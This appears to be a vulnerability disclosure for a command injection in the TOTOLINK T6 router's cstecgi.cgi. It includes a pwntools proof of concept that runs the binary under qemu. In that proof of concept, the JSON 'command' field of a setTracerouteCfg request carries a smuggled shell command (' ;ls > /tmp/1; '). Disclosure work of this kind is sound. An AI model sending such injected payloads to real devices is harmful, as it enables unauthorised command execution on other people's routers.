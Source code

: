 # Command Injection

## TOTOLINK_T6

version: V4.1.5cu.709_B20210518

## Description:

There is a execute arbitrary command  in cstecgi.cgi

## Source:

you may download it from : http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=16&ids=36

## Analyse:



in sub_42102C, var get from command

![](https://s3.bmp.ovh/imgs/2022/08/23/a0254aea3f314f38.png)


finally pass to v5 and execute 


## POC

```
from pwn import *
import json

data = {
    "topicurl": "setting/setTracerouteCfg",
    "command": " ;ls > /tmp/1; "
}

data = json.dumps(data)
print(data)

argv = [
    "qemu-mipsel-static",
    "-g", "1234",
    "-L", "./root/",
    "-E", "CONTENT_LENGTH={}".format(len(data)),
    "-E", "REMOTE_ADDR=192.168.0.1",
    "./cstecgi.cgi"
]

a = process(argv=argv)
a.sendline(data.encode())

a.interactive()
```
